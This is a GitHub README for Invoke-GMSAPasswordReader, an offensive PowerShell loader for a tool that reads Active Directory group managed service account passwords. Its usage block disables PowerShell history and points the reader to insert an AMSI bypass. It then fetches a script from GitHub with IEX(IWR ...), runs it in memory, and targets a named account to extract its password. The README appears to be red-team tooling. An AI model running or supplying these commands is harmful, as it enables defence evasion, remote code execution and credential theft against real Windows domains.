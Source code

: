 # Invoke-GMSAPasswordReader

## The .Net assembly is based on my modified fork GMSAPasswordReader: https://github.com/ricardojba/GMSAPasswordReader.

[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style .Net Assembly loader for the GMSAPasswordReader [GMSAPasswordReader](https://github.com/ricardojba/GMSAPasswordReader).

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-GMSAPasswordReader.ps1')

Invoke-GMSAPasswordReader -Command "--AccountName jkohler"
```

## Credits

[rvazarkar] for the original [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader).
